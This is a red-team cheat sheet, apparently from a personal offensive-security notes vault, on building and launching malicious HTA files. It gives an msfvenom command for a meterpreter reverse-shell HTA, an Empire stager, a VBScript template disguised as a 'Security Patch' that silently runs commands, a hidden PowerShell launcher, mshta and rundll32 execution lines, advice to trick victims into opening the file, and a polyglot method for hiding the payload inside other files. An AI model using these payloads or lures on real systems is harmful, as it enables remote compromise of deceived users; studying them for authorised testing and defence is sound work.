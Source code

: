 # HTA

## 01 - Generate Payloads

### 1.1 - `msfvenom`

> [!INFO] Payload's Limitation
> It couldn't handle a command execution that exceeded 8192 characters.. Check for more details about [[Command Prompt|command prompt]] (`cmd.exe`).
 
```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f hta-psh -o payload.hta
```

### 1.2 - Empire

```
(Empire) > usestager windows/launcher_hta
```

### 1.3 - HTA Templates

HTA payload template.

```html
<html>
	<head>
		<title>
			Security Patch
		</title>
	</head>
	<body>
		<p>Installing security patch...</p>
	</body>
	<script language="VBScript">
	Function Execute()
		Set shell = CreateObject("WScript.Shell")
		shell.Run "<commands>", 0
	End Function

	Execute
	</script>
</html>
```

This is a de-obfuscated format of `hta-psh` in `msfvenom`. Refer to this [[03 - Malware Development/Techniques/Payload Execution/Command Execution/Execute Commands/Windows/WinAPI|section]] related to command execution using `powershell.exe`.

```html
<script language="VBScript">
  window.moveTo -4000, -4000
  Set Shell = CreateObject("WScript.Shell")
  Set Program = CreateObject("Scripting.FileSystemObject")
  For each path in Split(Shell.ExpandEnvironmentStrings("%PSModulePath%"),";")
    If Program.FileExists(path + "\..\powershell.exe") Then
      Shell.Run "powershell -nop -w hidden -e <base64_encoded_powershell_script>", 0
      Exit For
    End If
  Next
  window.close()
</script>
```

## 02 - Execute Payloads

> [!TIP] HTA Payloads
> You can actually social engineer the victim to double click the `.hta` to establish connection.

### 2.1 - `mshta.exe`

```
C:\> mshta.exe vbscript:Execute("MsgBox(""Would you like to update Windows?"", 64, ""Example"")(window.close)")

C:\> mshta.exe javascript:alert("Please Install Required Update")
```

To execute the payload.

```
C:\> mshta.exe %CD%\payload.hta

C:\> mshta.exe <drive_letter>:\absolute\path\to\payload.hta
```

### 2.2 - `rundll32.exe`

```
C:\> rundll32.exe url.dll,OpenURL "<drive_letter>:\absolute\path\to\payload.hta"

C:\> rundll32.exe url.dll,FileProtocolHandler "<drive_letter>:\absolute\path\to\payload.hta"

C:\> rundll32.exe url.dll,OpenURLA "<drive_letter>:\absolute\path\to\payload.hta"

C:\> rundll32.exe shdocvw.dll,OpenURL "<drive_letter>:\absolute\path\to\payload.hta"

C:\> rundll32.exe ieframe.dll,OpenURL "<drive_letter>:\absolute\path\to\payload.hta"
```

## 03 - Polyglot

> [!TIP]
> Feel free to experiment around binding any binary file format with `.hta` payload.

Bind the binary files together.

```
C:\> copy /y /b filename.extension+payload.hta hidden_payload.extension
```

It's also possible to do this in `wine`.

```
$ wine cmd.exe /y /c copy /b filename.extension+payload.hta hidden_payload.extension
```

Then execute it

```
C:\> mshta.exe %CD%\hidden_payload.extensions
```

---
## References

### Backlinks

- [[Rundll32]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Delivery Methods/File Attachment/Web Drive-by/Windows/Manual/Living off the Land]]

### LOLBAS

- [LOLBAS: Mshta](https://lolbas-project.github.io/lolbas/Binaries/Mshta/)

### Red Team Notes

- [Red Team Notes: MSHTA](https://www.ired.team/offensive-security/code-execution/t1170-mshta-code-execution)

### DMCXBlue

- [DMCXBlue: MSHTA](https://dmcxblue.gitbook.io/red-team-notes/execution/mshta)

### Sevagas

- [Sevagas: Hacking around HTA files](https://blog.sevagas.com/?Hacking-around-HTA-files)